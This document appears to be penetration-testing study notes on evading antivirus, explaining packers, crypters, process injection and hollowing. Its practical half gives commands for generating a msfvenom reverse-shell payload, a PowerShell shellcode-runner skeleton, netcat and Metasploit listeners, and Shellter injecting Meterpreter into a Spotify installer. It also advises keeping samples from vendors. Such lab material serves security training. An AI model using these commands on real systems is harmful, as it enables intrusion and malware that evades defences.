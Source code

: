 # Bypassing Antivirus Detections

Antivirus evasion falls into two broad categories: **on-disk** and **in-memory**. On-disk evasion focuses on modifying malicious files physically stored on disk to evade AV file-engine detections. Modern AV engines are mature, so malware increasingly attempts **in-memory** operation to avoid writing to disk and reduce detection probability. 
## On-Disk Evasion

Modern on-disk malware obfuscation can take many forms:

- **Packers** — originally designed to reduce binary size and change binary structure (new hash/signature). Simple packers like UPX are usually **insufficient** against modern scanners.
- **Obfuscators** — reorganize and mutate code (semantically equivalent instruction swaps, dead code insertion, function splitting/reordering). Useful against signature-based detection and to hinder reverse engineering; modern obfuscators can also include runtime/in-memory features.
- **Crypters** — cryptographically encrypt executable code and add a decryption stub that restores the original code in memory at runtime. Because only encrypted bytes exist on disk, crypters are very effective for stealth.
- **Additional techniques** — anti-reversing, anti-debugging, VM/emulation detection, software protectors (legitimate anti-copy tools reused for evasion).

## In-Memory Evasion

In-memory techniques avoid writing executable payloads to disk and instead manipulate volatile memory. Key techniques:

### Remote Process Memory Injection

Typical sequence using Windows APIs:

```
OpenProcess() → VirtualAllocEx() → WriteProcessMemory() → CreateRemoteThread()
```

This injects code into another (legitimate) process and executes it there.

### Reflective DLL Injection

Loads a DLL from memory (no `LoadLibrary` from disk). Requires a custom loader because Windows does not provide APIs to load a DLL directly from a memory buffer.

### Process Hollowing

Launch a benign process suspended, replace its image in memory with a malicious executable image, then resume the process so it runs malicious code under the guise of the original process.

### Inline Hooking

Modify function prologues (or similar) to redirect execution to attacker-controlled code and then return. Often used by rootkits; typically requires elevated privileges.

# AV Evasion in Practice

This section covers testing best practices, a PowerShell in-memory example, and automation tools.

## Testing for AV Evasion

Consider the impact of sample submission and environment parity:

- **VirusTotal** — scans across many AV vendors but shares samples; submitting a sample can cause vendors to analyze and fingerprint it (burns the payload).
- **Kleenscan.com** — claims to scan against ≈30 AV engines without sharing samples (limited free scans). Use with caution.
- **Best practice** — build a dedicated VM that mirrors the customer environment, disable automatic sample submission there, and test locally. Example: disable Windows Defender automatic sample submission via the GUI:

```
Windows Security > Virus & threat protection > Manage Settings > Automatic sample submission → Off
```

Prefer **custom code** where feasible, since unique payloads reduce signature overlap with known malware.

## Evading AV with Thread Injection (PowerShell example)

This example demonstrates an in-memory injection approach using PowerShell reflection and an msfvenom-generated payload. The flow and the primary commands used in the original example are given verbatim for convenience.

### Generate a PowerShell reflection payload with msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection
```

### PowerShell skeleton used to allocate memory and execute shellcode

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

# <place shellcode here>
```

### Common PowerShell execution policy commands (view & set for current user)

```powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Prepare a Netcat listener on the attacker machine

```bash
nc -lvnp 443
```

### Run the PowerShell script on the target (example)

```powershell
.\bypass.ps1
```

> [!CAUTION]
> Use an x86 PowerShell instance if the payload is x86.


## Automating the Process (Shellter example)

Shellter is a dynamic shellcode injection/PE-infector tool that can automate stealthy injection into PE files.

### Install Shellter (and Wine for Windows PE tooling on Linux)

```bash
sudo apt install shellter wine
sudo dpkg --add-architecture i386 && sudo apt-get update && sudo apt-get install wine32

# If we are using an ARM processor, we need to a slightly different set of commands.
sudo apt install wine
sudo dpkg --add-architecture amd64
sudo  apt install -y qemu-user-static binfmt-support
sudo apt-get update && apt-get install wine32
```

### Run Shellter (auto mode) and inject a payload

```bash
shellter
# then follow interactive prompts:
# - choose Auto mode (A)
# - provide target PE path, e.g. /home/kali/Downloads/SpotifyFullWin10-32bit.exe
# - enable Stealth Mode
# - choose payload (e.g., meterpreter)
```

### Set up a Metasploit handler for a Meterpreter reverse payload

```bash
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST 192.168.50.1; set LPORT 443; run;"
```

**Practical notes**

- Shellter creates a backup of the original PE and attempts to keep the original execution flow (Stealth Mode).
- In the example, Meterpreter payloads were the only reliable option under Windows 11 for the tested setup.
- Automated PE infectors may still be detected by advanced EDRs; tailor tooling to the target environment and always test in controlled VMs.